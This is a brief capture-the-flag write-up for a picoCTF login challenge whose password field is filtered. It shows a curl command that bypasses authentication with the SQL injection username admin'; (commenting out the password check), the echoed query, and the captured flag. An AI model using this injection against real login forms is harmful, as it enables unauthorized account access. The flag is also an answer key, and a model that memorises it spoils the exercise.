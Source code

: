 # Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751


# Pistas
The password is being filtered.

# Solucion
```
# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}

yosshell-picoctf@webshell:~$ curl -s curl -s https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>yosshell-picoctf@webshell:~$ 
```

# Bandera
picoCTF{m0R3_SQL_plz_c34df170}

# Notas adicionales

# Referencias